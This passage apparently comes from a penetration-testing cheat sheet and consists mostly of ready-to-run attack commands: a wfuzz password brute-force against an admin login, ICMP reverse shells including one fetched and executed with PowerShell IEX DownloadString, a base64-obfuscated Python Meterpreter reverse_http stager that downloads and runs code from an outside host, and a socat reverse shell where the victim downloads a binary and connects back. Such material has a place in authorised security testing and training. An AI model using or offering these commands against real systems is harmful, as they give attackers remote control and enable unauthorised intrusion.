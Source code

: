 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
<a name="icmp"></a><h3> Reverse ICMP shell </h3>

<b> Server </b>

<pre> 

sysctl -w net.ipv4.icmp_echo_ignore_all=1
python icmpsh_m.py [IP atacante] [IP victima]

</pre>

<b> Client </b>

<pre>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1'); Invoke-PowerShellIcmp -IPAddress [IP atacante]</pre>

![icmpreverseshell](https://user-images.githubusercontent.com/7115563/35213289-6ac51b00-ff5d-11e7-9b66-766af2aaf92e.png)

<b> Native ICMP shell </b>

<pre> 
powershell -nop -Command "$IP = '10.10.14.42';$client = New-Object System.Net.NetworkInformation.Ping;$options = New-Object System.Net.NetworkInformation.PingOptions;$options.DontFragment = $true;$client.send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes('pie'), $options);while($true){$comms = $client.Send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes(''), $options);if($comms.Buffer){ $cmd = ([Text.Encoding]::ASCII).GetString($comms.Buffer);$reply = (Invoke-Expression -Command $cmd | Out-String);$client.send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes($reply), $options);}}"
</pre>

Reference: https://esgeeks.com/icmpsh-shell-reverse-con-icmp/


<a name="httpproxy"></a><h3> Reverse HTTP Shell through Proxy </h3>

<pre>use payload/python/meterpreter/reverse_http</pre>

![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png)


```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"```

Finally we set up the handler:

![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)


<a name="misc"></a><h2> Miscellaneous </h2>

<a name="interactiveshell"></a><h3> Interactive Reverse Shell </h3>

<b> Method 1 </b>

Attacker:

```socat file:`tty`,raw,echo=0 TCP-L:4444```

Victim:

```wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444```
```